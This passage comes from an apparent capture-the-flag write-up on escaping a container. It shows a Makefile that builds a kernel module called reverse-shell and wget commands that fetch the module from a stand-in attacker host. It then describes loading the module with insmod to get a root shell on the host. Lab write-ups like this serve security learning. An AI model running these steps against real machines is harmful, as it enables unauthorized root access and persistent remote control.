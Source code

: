 We must also create a makefile to compile the kernel module - `Makefile`

```
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Let us transfer these files to the container using wget from our host.

```
wget http://<attacker-ip>:<port>/reverse-shell.c
wget http://<attacker-ip>:<port>/Makefile
```

Once transferred, we can run `make`. This will create the kernel module `reverse-shell.ko`

Let us start a listener on the port and run `insmod reverse-shell.ko` on the container

![root-rvsh.png](/img/monitors/root-rvsh.png)

We now have shell as root on the host.

We can now view the contents of root.txt

`f*******************************`

---
